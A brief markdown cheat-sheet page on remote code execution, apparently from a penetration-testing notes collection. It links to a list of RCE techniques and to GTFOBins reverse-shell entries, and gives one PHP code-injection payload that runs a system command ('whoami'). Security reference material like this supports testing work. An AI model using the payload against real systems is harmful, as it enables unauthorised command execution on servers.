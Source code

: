 # Remote Code Execution

## How to achieve RCE in known CMSes, frameworks and related

- [https://github.com/p0dalirius/Awesome-RCE-techniques](https://github.com/p0dalirius/Awesome-RCE-techniques)

## PHP

- `${@print(system("whoami"))}`

## How to reverse shell with different techs

- [https://gtfobins.github.io/#+reverse%20shell](https://gtfobins.github.io/#+reverse%20shell)